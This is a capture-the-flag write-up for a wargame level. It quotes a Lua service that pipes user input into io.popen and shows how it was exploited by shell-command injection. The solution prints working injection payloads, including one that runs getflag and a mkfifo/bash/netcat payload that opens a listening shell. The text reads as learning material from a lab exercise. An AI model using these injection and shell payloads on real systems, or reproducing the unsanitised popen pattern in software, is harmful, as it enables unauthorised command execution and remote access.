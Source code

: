 # level12

## Challenge info

There is a backdoor process listening on port 50001.

```
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 50001))

function hash(password)
  prog = io.popen("echo "..password.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local line, err = client:receive()
  if not err then
      print("trying " .. line) -- log from where ;\
      local h = hash(line)

      if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
          client:send("Better luck next time\n");
      else
          client:send("Congrats, your token is 413**CARRIER LOST**\n")
      end

  end

  client:close()
end
```

## Solution

Since i did not recognized the code syntax, i went online to https://creativetechguy.com/utilities/codedetector and posted the hash() function.

Turns out this is a lua script (and i dont know shit about lua), also if i went to the /home/flag12 and listed the files, the script is there with extension .lua.

I replicated part of the hash() function to see what it does.

Came to the conclusion that the bellow line will create a new process and source the first argument to the console

```
io.popen("echo " ..password.. " | sha1", "r)
```

I went ahed and launched a tcpdum icmp at the local machine and tried to ping it passing

```
Password: a; ping $IP #
```

And it was successfull.

Now, i tried to print the flag to see if it would work (and it did with the owner being flag12)

```
Password: ; getflag > /tmp/flag #
```

Now i wanted a shell so i found one online to make a reverse shell on the restricted netcat (nc) and modified it

```
Password: a; mkfifo /tmp/f2 && /bin/bash 0</tmp/f2 | nc -l 9999 > /tmp/f2 2>&1
```

From local machine

```
nc $IP 9999
whoami
$ flag12
getflag
```

## Flag

```
You have successfully executed getflag on a target account
```